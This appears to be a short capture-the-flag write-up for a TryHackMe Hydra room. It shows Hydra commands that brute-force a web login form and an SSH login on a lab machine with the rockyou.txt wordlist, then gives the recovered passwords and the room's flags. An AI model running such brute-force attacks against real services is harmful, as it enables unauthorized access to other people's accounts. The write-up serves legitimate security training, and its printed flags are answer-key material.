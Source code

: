 # Hydra

## Website
By using the given command as a baseline for our command and using the `rockyou.txt` password list we can create the following command: `hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.76.21 http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect" -V`. Running it will quickly return us a result of `sunshine` for the password of `molly`. Using this we can see that the flag is: `THM{2673a7dd116de68e85c48ec0b1f2612e}`.

## SSH
By using the given command as a baseline for our command and using the `rockyou.txt` password list we can create the following command: `hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.76.21 -t 10 ssh -V`. Running it will return us a result of `butterfly` for the password of `molly`. Using this we can `ssh` into `molly@10.10.76.21` and simply `cat` out the file in the initial directory to get the flag: `THM{c8eeb0468febbadea859baeb33b2541b}`.